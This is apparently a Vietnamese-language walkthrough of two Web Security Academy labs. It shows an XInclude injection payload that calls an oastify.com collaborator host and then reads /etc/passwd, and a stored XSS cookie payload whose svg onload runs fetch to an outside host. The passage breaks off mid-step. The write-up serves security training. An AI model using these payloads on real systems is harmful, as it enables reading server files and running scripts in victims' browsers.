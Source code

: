 ```http
POST /product/stock HTTP/2
Host: 0aac00b1030a62328099f4870028002a.web-security-academy.net
...
productId=%3cgkf%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20href%3d%22http%3a%2f%2f558yjyo4lz7qvnfvxalpuvj1jspldb1cp4cu0j.oastify.com%2ffoo%22%2f%3e%3c%2fgkf%3e&storeId=1
```

**Payload** được **decode**

```
productId=<gkf xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://558yjyo4lz7qvnfvxalpuvj1jspldb1cp4cu0j.oastify.com/foo"/></gkf>&storeId=1
```
**Response** nhận được

```
"Invalid product ID: l6sxypnejgpc0a7g71yzyszjlgigtgkfigz"
```

=> Ứng dụng trả về lỗi, không thể sử dụng **Document Type Definition (DTD)** vì nó phải đứng trước toàn bộ tài liệu **XML**, không được chèn vào giữa hoặc trong giá trị của tham số. ta sử dụng **XInclude** để gọi nội dung từ `/etc/passwd`

#### Exploit
- Bôi đen phần **payload** được thêm vào, đến tab **Inspector** thêm **payload** và **Apply change** nó sẽ tự động **encode** trước khi gửi

```xml
<xi:include parse="text" href="/etc/passwd" xmlns:xi="http://www.w3.org/2001/XInclude"/>
```
- Gửi lại **request** 

### Lab: Scanning non-standard data structures
- Login bằng account `wiener`
- Quan sát ta thấy **request** có **cookie** khả nghi

```http
GET /my-account?id=wiener HTTP/2
Host: 0aeb00c104f4826880b0f86c00ab00b1.web-security-academy.net
Cookie: session=wiener%3alZwpRCmLa4IIJabOU2k3hDLPdHoJ29QW
```

- Decode **cookie** ta được 

```
session=wiener:lZwpRCmLa4IIJabOU2k3hDLPdHoJ29QW
```
- Bôi đen `wiener` > chuột phải > **Scan selected insertion point** > **Audit** > **Ok**
- Sau khi xong, nếu chưa có **bug High** nào => **ccan** như trên lần nữa 
- Xuất hiện **XSS (stored)** ở **scan** trước đó
- Gửi **request** đó đến **Repeater**

```http
GET /my-account?id=wiener HTTP/2
Host: 0aeb00c104f4826880b0f86c00ab00b1.web-security-academy.net
Cookie: session='%22%3e%3csvg%2fonload%3dfetch%60%2f%2ftnkm1m6s3npedbxjfy3dcj1p1g7av0js9g06nwbl%5c.oastify.com%60%3e%3alZwpRCmLa4IIJabOU2k3hDLPdHoJ29QW
```
- Decode **cookie** ta được 
